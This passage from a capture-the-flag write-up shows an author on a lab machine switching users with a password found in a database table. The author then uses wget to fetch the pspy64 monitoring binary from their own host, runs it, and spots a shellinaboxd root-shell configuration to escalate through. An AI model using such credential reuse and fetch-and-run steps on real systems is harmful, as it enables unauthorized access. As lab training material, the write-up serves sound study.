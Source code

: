 I got the **FIRST FLAG**

![](/assets/images/Bah-6.png)

`qpadmin` doesn´t have permmisons to read, only rocio. For that, i will access like `rocio`, her pass is `Ihaveaflower`.

Note: `Ihaveaflower` was discovered in the  `users` table

![](/assets/images/Bah-7.png)


## Privilege Escalation

I will use `pspy64`

```bash
rocio@bah:~$ wget "http://192.168.0.105:8080/pspy64"

rocio@bah:~$ chmod +x pspy64

rocio@bah:~$ ./pspy64
```

Upon execute `pspy64`, this line called my attention:

![](/assets/images/Bah-8.png)

It is a command of shellinaboxd:

```bash
-s /devel:root:root:/:/tmp/dev
```
